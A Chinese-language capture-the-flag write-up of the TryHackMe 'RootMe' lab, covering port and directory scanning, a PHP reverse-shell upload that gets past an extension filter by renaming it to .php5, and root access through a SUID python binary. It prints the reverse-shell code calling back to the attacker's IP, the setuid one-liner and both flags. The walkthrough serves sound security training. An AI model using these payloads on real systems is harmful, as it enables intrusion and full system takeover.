





# RootMe

首先拿到機器 IP `10.10.161.181`，並確認機器已上線

`ping 10.10.161.181`


接著用 nmap 尋找開啟的服務

`nmap -v -sV -p- --min-rate 5000 -Pn 10.10.161.181`


發現只有開啟兩個服務，一個是 port 22 的 SSH (openvpn 7.6)，另一個是 port 80 的 HTTP 網頁服務 (Apache 2.4.29)

打開瀏覽器看網頁，基本上沒什麼特別的


而既然有網頁，那就可以嘗試使用 gobuster 或 dirsearch 之類的工具幫助我們找隱藏的目錄，為了避免像是上次 (`thm/pickle_rick`) 那樣的慘案，這次我同時使用兩個工具來找

`gobuster dir -u 10.10.161.181 -w /usr/share/seclists/Discovery/Web-Content/common.txt`



`python ./dirsearch/dirsearch.py --url http://10.10.161.181/`



以下整理找到的路徑:

```
/css/
/index.php
/js/
/panel/
/uploads/
```

發現了奇怪的 `/panel/` 及 `/uploads/` endpoint，用瀏覽器看一下

`/panel/`


可以看到，這看起來是一個上傳檔案的頁面

`/uploads/`

可以從路徑猜到，這應該是會放上傳的檔案的部分


既然我們可以上傳檔案，那可以推測有可能有 file injection 的漏洞，另外可以從前面掃出來的路徑觀察到這個網頁使用 PHP 作後端，我們可以上傳一個 PHP webshell 以取得初步的 shell

這邊我使用 reverse shell 將 shell 打回自己機器的 port 2023 以方便操作

`rshell.php`:
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.17.31.45/2023 0>&1'");
?>
```

當上傳上去後，會發現出現紅色框的訊息，將文字丟翻譯後發現寫的是 `PHP is not allowed!`，可以推測有基本的 WAF


這邊猜測可能是檢查副檔名是否為 `.php` 這樣子的 WAF，而我們知道 PHP 的副檔名不一定是要 `.php` 而可以是 `.php2`, `.php5`, `phtml` 之類的，因此這邊我嘗試將檔案名稱改為 `rshell.php5` 再進行上傳


這次上傳成功

而在 `/uploads/` endpoint 中也可以看到我們剛上傳的檔案



因此我們可以先用 nc 開 port，並進入該檔案路徑，即可拿到彈回來的 shell

`nc -lvnp 2023`


首先使用 `id` 指令，查看目前的身分及權限


可以看到基本上是一個低權限帳號

另外也想檢查一下有沒有 sudo 可以用，但很可惜的可能是因為是 reverse shell 的關係所以沒辦法看到


四處走走逛逛，在 `/var/www/user.txt` 的地方看到了 user flag



`THM{y0u_g0t_a_sh3ll}`

而接下來就需要提權了，根據題目提示，接下來要找有 SUID 權限的執行檔，以進行跳脫，這邊我使用 find 指令來找

`find / -type f -perm /4000 -exec ls -al {} + 2>/dev/null`


這邊的 `-type f` 指的是要找一個 file，而 `-perm /4000` 是要找有 SUID 的檔案，而 `-exec ls -al {} +` 則是將找到的檔案用 `ls -al` 的方式顯示出來

在圖中可以看到有一個奇怪的 binary 具有 SUID，就是倒數第 8 行的 `/usr/bin/python`，一般來說 `python` 執行器並不會有 SUID 權限而這邊居然出現了，以下是一個正常的 python 應該所具有的權限


因此我們可以嘗試使用 python 提權，最關鍵的部分就是 `os.setuid` 這個部分，這個函式可以讓當前 process 得到特定 uid 權限 (如果具有取得該權限的能力的話)

因此我們可以執行下列指令，生成一個具有 root 身分的 shell

`/usr/bin/python -c "import os; os.setuid(0); os.system('/bin/sh')"`


可以看到我們的身分確實變成 root 了

rootflag 在 `/root/root.txt` 中



`THM{pr1v1l3g3_3sc4l4t10n}`

至此，我們已取得完整機器權限